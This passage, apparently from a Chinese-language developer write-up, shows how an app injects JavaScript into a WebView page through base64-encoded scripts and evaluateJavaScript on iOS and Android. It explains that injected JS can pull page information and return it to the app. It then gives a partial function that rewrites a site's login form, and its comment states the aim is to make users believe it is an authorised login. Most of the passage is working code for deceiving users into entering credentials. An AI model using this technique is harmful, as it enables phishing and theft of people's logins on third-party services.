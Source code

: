 ```
    }
```
iOS
```
//注入js文件
- (void) injectJsFile:(NSString *)filePath{
    NSString *jsPath = [[NSBundle mainBundle] pathForResource:filePath ofType:@"js" inDirectory:@"assets"];
    NSData *data=[NSData dataWithContentsOfFile:jsPath];
    NSString *responData =  [data base64EncodedStringWithOptions:0];
    NSString *jsStr=[NSString stringWithFormat:@"javascript:(function() {\
                     var parent = document.getElementsByTagName('head').item(0);\
                     var script = document.createElement('script');\
                     script.type = 'text/javascript';\
                     script.innerHTML = decodeURIComponent(escape(window.atob('%@')));\
                     parent.appendChild(script)})()",responData];
    [self.webView evaluateJavaScript:jsStr completionHandler:^(id _Nullable htmlStr,NSError * _Nullable error){
        
    }];
}
```
我们都采用读取js文件，然后base64编码后，使用window.atob把其做为一个脚本注入到当前页面(注意：window.atob处理中文编码后会得到的编码不正确，需要使用ecodeURIComponent escape来进行正确的校正。)
在这里已经使用了app端，调用js的方法来创建元素。
## app端调用js方法
android端：
```
webView.evaluateJavascript(funcStr, new ValueCallback<String>() {
            @Override
            public void onReceiveValue(String s) {

            }

        });
```
ios端：
```
[self.webView evaluateJavaScript:funcStr completionHandler:^(id _Nullable htmlStr,NSError * _Nullable error){
        
    }];
```
这两个方法可以获取返回值，正因为如此，可以使用js提取页面信息后，返回给webview，然后收集信息完成之后，汇总进行通信。
# js串改页面
 ```
//串改页面元素，让用户以为是授权登录
function getLogin(){
  var topEle=selectNode('//*[@id="avatarWrapper"]');
  var imgEle=selectNode('//*[@id="avatarWrapper"]/img');
  topEle.remove(imgEle);
  var returnEle=selectNode('//*[@id="loginWrapper"]/a');
  returnEle.className='';
  returnEle.innerText='';
  pEle=selectNode('//*[@id="loginWrapper"]/p');
  pEle.className="";
  pEle.innerHTML="";
  footerEle=selectNode('//*[@id="loginWrapper"]/footer');
  footerEle.innerHTML="";
  var loginNameEle=selectNode('//*[@id="loginName"]');
  loginNameEle.placeholder="请输入用户名";
  var buttonEle=selectNode('//*[@id="loginAction"]');
 ```